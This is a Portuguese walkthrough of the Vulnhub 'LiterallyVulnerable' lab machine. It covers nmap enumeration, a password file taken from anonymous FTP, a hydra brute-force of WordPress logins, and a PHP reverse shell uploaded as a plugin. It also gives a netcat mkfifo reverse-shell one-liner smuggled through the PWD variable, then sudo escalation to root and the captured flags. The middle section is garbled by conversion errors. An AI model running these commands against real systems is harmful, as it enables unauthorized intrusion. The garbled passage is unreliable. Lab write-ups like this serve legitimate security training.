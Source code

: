 Vulnhub - LiterallyVulnerable

# Vulnhub - LiterallyVulnerable

## Enumeration

Após ligar a maquina, executado os comandos abaixo para enumeração da VM

```bash
dcruz@kali:/dcruz/fiap/literallyvulnerable$ nmap -p- -sC -sV -Pn -oA quick 172.30.2.216       
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-29 13:41 -03                               
Nmap scan report for literallyvulnerable.mshome.net (172.30.2.216)                            
Host is up (0.00020s latency).                 
Not shown: 65531 closed ports                  
PORT      STATE SERVICE VERSION                
21/tcp    open  ftp     vsftpd 3.0.3           
| ftp-anon: Anonymous FTP login allowed (FTP code 230)                                        
|_-rw-r--r--    1 ftp      ftp           325 Dec 04 13:05 backupPasswords                     
| ftp-syst:                                    
|   STAT:                                      
| FTP server status:                           
|      Connected to ::ffff:172.30.3.228        
|      Logged in as ftp                                                                       
|      TYPE: ASCII                             
|      No session bandwidth limit                                                             
|      Session timeout in seconds is 300                                                      
|      Control connection is plain text                                                       
|      Data connections will be plain text     
|      At session startup, client count was 3                                                 
|      vsFTPd 3.0.3 - secure, fast, stable     
|_End of status                                                                               
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)          
| ssh-hostkey:                                                                                
|   2048 2f:26:5b:e6:ae:9a:c0:26:76:26:24:00:a7:37:e6:c1 (RSA)                                
|   256 79:c0:12:33:d6:6d:9a:bd:1f:11:aa:1c:39:1e:b8:95 (ECDSA)                               
|_  256 83:27:d3:79:d0:8b:6a:2a:23:57:5b:3c:d7:b4:e5:60 (ED25519)                             
80/tcp    open  http    nginx 1.14.0 (Ubuntu)                                                 
|_http-generator: WordPress 5.3                                                                                                                                                             
|_http-server-header: nginx/1.14.0 (Ubuntu)                                                   
|_http-title: Not so Vulnerable &#8211; Just another WordPress site                           
|_http-trane-info: Problem with XML parsing of /evox/about                                    
65535/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))                                        
|_http-server-header: Apache/2.4.29 (Ubuntu)   
|_http-title: Apache2 Ubuntu Default Page: It works                                           
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel                                

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.79 seconds                               
```

Scan todas as portas

```bash
dcruz@kali:/dcruz/fiap/literallyvulnerable$ nmap -A -p- -Pn -oA allPorts 172.30.2.216          
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-29 14:06 -03
Nmap scan report for literallyvulnerable.mshome.net (172.30.2.216)
Host is up (0.00028s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3 not vulnerable
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp           325 Dec 04 13:05 backupPasswords
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.30.3.228
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2f:26:5b:e6:ae:9a:c0:26:76:26:24:00:a7:37:e6:c1 (RSA)
|   256 79:c0:12:33:d6:6d:9a:bd:1f:11:aa:1c:39:1e:b8:95 (ECDSA)
|_  256 83:27:d3:79:d0:8b:6a:2a:23:57:5b:3c:d7:b4:e5:60 (ED25519)
80/tcp    open  http    nginx 1.14.0 (Ubuntu)
|_http-generator: WordPress 5.3
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Not so Vulnerable &#8211; Just another WordPress site
|_http-trane-info: Problem with XML parsing of /evox/about
65535/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . 
Nmap done: 1 IP address (1 host up) scanned in 13.65 seconds
```

Acessando o FTP de forma anonima realizado o download do arquivo backupPasswords, único arquivo existente, o qual possuia algumas senhas em seu conteúdo

- Directory listing do FTP

```bash
   
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Dec 04 13:05 .
drwxr-xr-x    2 ftp      ftp          4096 Dec 04 13:05 ..
-rw-r--r--    1 ftp      ftp           325 Dec 04 13:05 backupPasswords
226 Directory send OK.
ftp> exit
221 Goodbye.
```

- Conteúdo do arquivo de texto

```bash
dcruz@kali:/dcruz/fiap/literallyvulnerable/loot$ cat backupPasswords 
Hi Doe, 

I'm guessing you forgot your password again! I've added a bunch of passwords below along with your password so we don't get hacked by those elites again!

*$eGRIf7v38s&p7
yP$*SV09YOrx7mY
GmceC&oOBtbnFCH
3!IZguT2piU8X$c
P&s%F1D4#KDBSeS
$EPid%J2L9LufO5
nD!mb*aHON&76&G
$*Ke7q2ko3tqoZo
SCb$I^gDDqE34fA
Ae%tM0XIWUMsCLp
```

### Enum 80/TCP:

Identificado Wordpress 5.3 em execução, sem plugins ou RCE vuln conhecidas.
- `wpscan --url http://literally.vulnerable -e vp,vt,u`
    - Encontrado uma vulnerabilidade de listar posts protegidos por senha, porem nenhum post alem do default foi retornado
    - Enumerado os users porém encontrado apenas o admin, para o qual as senhas existentes nenhuma teve êxito.
    - Enumerado site com `dirbuster/directory-list-2.3-medium.txt` porem diversos erros 301 estavam sendo retornados. Ao alterar os parametros do dirbuster para excluir o redirect 301 como sucesso, apenas algumas paginas já conhecidas do Wordpress foram retornadas.
    - Executado nikto e nenhum diretório interessante também foi retornado.
        ○ Enum 65535/TCP
        § Identificado pagina default do Apache2
        § Executado gobuster com dirbuster/directory-list-2.3-medium.txt porem nenhum diretório relevante foi encontrado
        § Executado dirbuster com a lista
        § Uma vez que a enumeração com esta lista não houve sucesso e SSH e FTP não são vulneraveis, realizado enumeração novamente com outra lista de diretórios, dirb/big.txt, onde os diretórios abaixo foram retornados:
        /.htpasswd (Status: 403)
        /.htpasswd.php (Status: 403)
        /.htaccess (Status: 403)
        /.htaccess.php (Status: 403)
        /javascript (Status: 301)
        /phpcms (Status: 301)
        /server-status (Status: 403)
        § Ao acessar a pagina /phpcmd, observados dois pontos importantes sobre esta instalação do Wordpress:
        □ Executado enumeração novamente com WPScan (wpscan --url http://literally.vulnerable:65535/phpcms -e vt,vp,u) e encontrado a mesma instalação do wordpress, porem com os users notadmin e maybeadmin
        § Para as contas encontradas, realizado bruteforce utilizando hydra conforme linha de comando abaixo:
        □ hydra -L users -P passwords literally.vulnerable -s 65535 -V http-form-post '/phpcms/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fliterally.vulnerable%3A65535%2Fphpcms%2Fwp-admin%2F&testcookie=1:incorrect'
        □ Found password \[65535\]\[http-post-form\] host: literally.vulnerable login: maybeadmin password: 
        
        $EPid%J2L9LufO5 § Ao acessar com a conta "maybeadmin" foi possível ler o post protegido, uma vez que o usuário "maybeadmin" não possui grandes permissões. No post está contida a senha do user notadmin:Pa$
        
        $w0rd13!& § Com acesso total ao wordpress, tentado incluir um shell reverso/rce na maquina porem o editor não retorna sucesso ao salvar arquivos. A alternativa seria realizar o upload de um novo plugin ou tema para esta finalidade □ Criado um arquivo zip contendo dois arquivos: ® PluginManifest ® Shell (php reverseshell pentest monkey) □ Após upload, navegado no caminho wp-content/plugins/ABC123/XPTO.php (caminho fisico do arquivo no wordpress), onde foi possivel obter um shell. § Após se conectar na maquina, executado LinEnum encontrado um arquivo configurado com SUID § Ao executar este arquivo, o mesmo mostra o PWD. § Ao realizar o hijacking do PWD, executado o comando export para popular o atributo □ export PWD='rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.30.3.228 4443 >/tmp/f' § Neste novo shell, como John, foi possivel obter o arquivo user.txt john@literallyvulnerable:/home/john$
        
        KaTeX parse error: Expected 'EOF', got '&' at position 8: w0rd13!&̲ § Com acesso t…
        
        cat user.txt
        Almost there! Remember to always check permissions! It might not help you here, but somewhere else! ;)
        Flag: iuz1498ne667ldqmfarfrky9v5ylki
        § Enumerando os arquivos em /home que o usuário tem acesso, encontrado um arquivo chamado myPassword:
        john@literallyvulnerable:/home/john$ find /home -type f -readable 2> /dev/null
        /home/doe/.bash_logout
        /home/doe/.bashrc
        /home/doe/noteFromAdmin
        /home/doe/.profile
        /home/doe/itseasy
        /home/john/.bash_logout
        /home/john/.ssh/authorized_keys
        /home/john/user.txt
        /home/john/.bashrc
        /home/john/.local/share/tmpFiles/myPassword
        /home/john/.profile
        /home/john/.cache/motd.legal-displayed
        § Conteúdo do arquivo myPassword
        john@literallyvulnerable:/home/john$ cat /home/john/.local/share/tmpFiles/myPassword
        I always forget my password, so, saving it here just in case. Also, encoding it with b64 since I don't want my colleagues to hack me!
        am9objpZWlckczhZNDlJQiNaWko=
        § Decodificando a string, encontrado a senha
        □ john:YZW$s8Y49IB#ZZJ
        § Com o usuário e senha encontrados, foi possivel realizar o acesso via SSH com a conta john
        § Com a senha, executado o comando sudo -l foi possivel enumerar os seguintes comandos que a conta pode executar como root:
        □ /var/www/html/test.html
        § Criado como www-data, um bash para gerar um shell reverso e obtido shell root.
        § Output do arquivo /root/root.txt

```bash
cat root.txt 
It was
 _     _ _                 _ _         _   _       _                      _     _      _ 
| |   (_) |               | | |       | | | |     | |                    | |   | |    | |
| |    _| |_ ___ _ __ __ _| | |_   _  | | | |_   _| |_ __   ___ _ __ __ _| |__ | | ___| |
| |   | | __/ _ \ '__/ _` | | | | | | | | | | | | | | '_ \ / _ \ '__/ _` | '_ \| |/ _ \ |
| |___| | ||  __/ | | (_| | | | |_| | \ \_/ / |_| | | | | |  __/ | | (_| | |_) | |  __/_|
\_____/_|\__\___|_|  \__,_|_|_|\__, |  \___/ \__,_|_|_| |_|\___|_|  \__,_|_.__/|_|\___(_)
                                __/ |                                                    
                               |___/                                                     

Congrats, you did it! I hope it was *literally easy* for you! :) 
Flag: pabtejcnqisp6un0sbz0mrb3akaudk

Let me know, if you liked the machine @syed__umar
```

Como Root, executado update da indexação dos arquivos e aberto flag local.txt

```bash
root@literallyvulnerable:/root# cat /home/doe/local.txt 
Congrats, you did it! I hope it was *easy* for you! Keep in mind #EEE is the way to go!
Flag: worjnp1jxh9iefqxrj2fkgdy3kpejp
```
